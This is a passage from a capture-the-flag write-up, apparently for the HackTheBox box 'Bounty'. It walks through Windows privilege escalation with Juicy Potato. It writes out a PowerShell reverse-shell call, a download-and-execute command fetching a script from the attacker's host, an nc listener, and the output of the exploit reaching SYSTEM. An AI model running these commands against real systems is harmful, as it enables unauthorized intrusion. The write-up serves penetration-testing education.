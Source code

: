 Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\merlin\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\merlin\Desktop> ./jp.exe -t * -p shell.bat -l 4444Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```

We get a shell back with SYSTEM privileges!

```text
root@kali:~/Desktop/tools/potatos# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.93] 49175
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.PS C:\Windows\system32>whoami
nt authority\system
```

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/658/1*XDRfGjfp9YG8WsO-Qdb_vA.png)

## Lessons Learned <a id="23a3"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Insufficient input validation. The upload functionality of the website had insufficient validation on the type of files that can be uploaded. Therefore, we were able to upload a web.config file that contained ASPX code to gain an initial foothold on the system. Proper input validation checks should be put in place on all user input.
